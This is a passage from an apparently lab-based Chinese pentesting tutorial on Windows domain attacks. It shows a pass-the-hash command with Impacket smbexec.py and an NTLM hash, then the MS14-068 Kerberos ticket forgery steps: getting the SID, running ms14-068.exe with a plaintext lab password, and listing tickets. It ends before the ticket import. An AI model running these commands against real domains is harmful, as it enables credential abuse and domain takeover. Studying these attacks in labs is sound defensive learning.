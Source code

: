 以下展示其中一个：

```cmd
python .\smbexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.29
```

![截图](db5d3d052cf6f0ca34bba235a935f125.png)

成功利用！！！

## PTT

PTT = pass the Ticket。 ==利用的票据凭证TGT进行渗透测试（Kerberos认证攻击）==

主要利用的方式就是：1）漏洞票据；2）票据劫持。

### 漏洞票据——MS14-068

==MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。==    

它允许经过身份验证的用户在其==Kerberos票证（TGT）==中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证。以下我们主要通过漏洞MS14-068(webadmin权限)——利用漏洞生成的用户的新身份票据尝试认证。

- 获取用户SID值

```shell
shell whoami /user
```

<br/>

<br/>

注意！！！ 这里需要使用的是对应你登陆密码的SID，而不是system的，如果使用以下system的SID是不会成功的

![截图](8e0f5a446cbe63b266108313621ca1a9.png)

- 生产票据文件：

先上传ms14-068到靶机上：

![截图](5123207b9f160b06d9a73c1231d11f16.png)

```shell
shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
```

![截图](14e674b7c231cdc6df7979c177dd9074.png)

- 查看当前存储的票据

```shell
shell klist
```

![截图](deffb4a4d2c78c63f70cedf4f30e50a9.png)

- 内存导入票据
